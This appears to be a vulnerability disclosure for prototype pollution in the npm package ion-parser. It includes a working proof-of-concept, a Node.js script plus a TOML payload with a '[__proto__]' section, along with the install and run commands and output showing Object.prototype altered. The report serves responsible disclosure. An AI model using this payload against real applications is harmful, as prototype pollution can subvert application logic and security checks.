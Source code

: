 # Description

Prototype Pollution in ion-parser

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var fs = require('fs')
var ion = require('ion-parser')
console.log("Before : " + {}.polluted);
var parsed = ion.parse(fs.readFileSync('./payload.toml', 'utf-8'))
console.log("After : " + {}.polluted);

//payload.toml
[__proto__]
polluted = "Yes! Its Polluted"
```

2. Execute the following commands in terminal:

```
npm i ion-parser # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
